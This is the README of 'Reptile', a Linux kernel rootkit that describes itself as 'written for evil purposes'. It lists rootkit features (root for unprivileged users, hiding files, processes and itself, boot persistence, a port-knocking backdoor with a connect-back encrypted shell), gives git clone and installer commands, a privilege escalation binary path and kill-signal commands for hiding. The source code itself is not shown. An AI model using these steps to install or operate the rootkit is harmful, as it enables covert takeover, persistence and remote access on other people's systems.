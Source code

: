 # Reptile

<img align="left" src="https://imgur.com/nqujOlz.png">

<br><br><br><br>Reptile is a LKM rootkit written for evil purposes that runs on kernel 2.6.x/3.x/4.x. 
<br>Would you like to see his fatality?<br><br><br><br>

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Hidden boot persistence
- Strings obfuscation. Method suggested by: [milabs](https://github.com/milabs)
- ICMP/UDP/TCP port-knocking backdoor
- Full TTY/PTY shell with file transfer
- Client to handle Reptile Shell
- Shell connect back each X times (not default)
   
## Roadmap

- Socket/Packet hiding
 
## Install
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./installer.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder (or any name you chose), that will be hidden by Reptile.

### Getting root privileges

Just run: `/reptile/reptile_r00t`

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Backdoor

You use the client to send magic packets and get your full TTY encrypted shell!

<p align="center">
   <img src="https://imgur.com/GwwIJAM.png">
</p>

More informations: [Reptile Shell](sbin/README.md)

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/
- https://github.com/creaktive/tsh
- http://www.drkns.net/kernel-who-does-magic/

<p align="center">
   <img src="https://imgur.com/RdYgb1T.gif">
</p>
